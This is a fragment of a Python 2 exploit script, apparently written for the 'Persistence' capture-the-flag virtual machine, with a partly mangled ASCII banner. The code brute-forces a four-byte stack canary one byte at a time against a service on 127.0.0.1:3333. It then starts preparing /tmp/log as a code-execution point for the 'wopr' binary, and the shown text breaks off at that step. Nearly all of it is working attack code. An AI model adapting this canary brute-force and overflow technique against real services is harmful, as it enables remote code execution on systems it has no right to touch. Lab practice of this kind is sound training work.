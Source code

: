 ```python Persistence Sploit
|__| |_____||__|\_|  \___||____|\___|  |__|  |_____||__|__|\____||_____|
      _____ ____  _       ___  ____  ______ 
     / ___/|    \| |     /   \|    ||      |
    (   \_ |  o  ) |    |     ||  | |      |
     \__  ||   _/| |___ |  O  ||  | |_|  |_|
     /  \ ||  |  |     ||     ||  |   |  |  
     \    ||  |  |     ||     ||  |   |  |  
      \___||__|  |_____| \___/|____|  |__|  
                                        
                A: "AKA: FU superkojiman && sagi- !!"
                A: "I also have no idea what I am doing"
"""

print "[+] Connecting & starting canary brute force..."

# start the canary brute loop. We want to brute 4 bytes ...
for x in xrange(1,5):

    # ... and try all possibilities
    for canary_byte in xrange(0, 256):

        # prepare the byte
        hex_byte = chr(canary_byte)

        # prepare the payload
        send = payload + canary + hex_byte

        # connect and send payload
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.connect(('127.0.0.1', 3333))

        # get the inital banners
        sock.recv(35)   # [+] hello, my name is sploitable\n
        sock.recv(40)   # [+] would you like to play a game?\n 
        sock.recv(5)    # > 

        # send the payload  
        sock.send(send)
        sock.recv(27)   # [+] yeah, I don't think so\n

        # if we have a OK response, then we will have this last part
        # as '[+] bye!\n' populated, if its wrong, not
        data =  sock.recv(64)   # [+] bye!\n
        if "bye" in data:
            print "[+] Found a possible canary value of '{0}'!".format(hex_byte.encode("hex"))
            canary += hex_byte
            sock.close()
            break

        sock.close()
    # if we cant even find the first byte, we failed already
    if len(canary) <= 0:
        print "[-] Unable to even find the first bit of the canary. No luck"
        sys.exit(0)

# The canary is our ticket out of here!
if len(canary) == 4:

    print "[+] Canary known as : {0}".format(canary.encode("hex"))
    print "[+] Writing /tmp/log to be called by wopr later"

    # ./wopr has the string /tmp/log in it. We will use this as
    # our code exec point, overwriting whatever is in it atm
```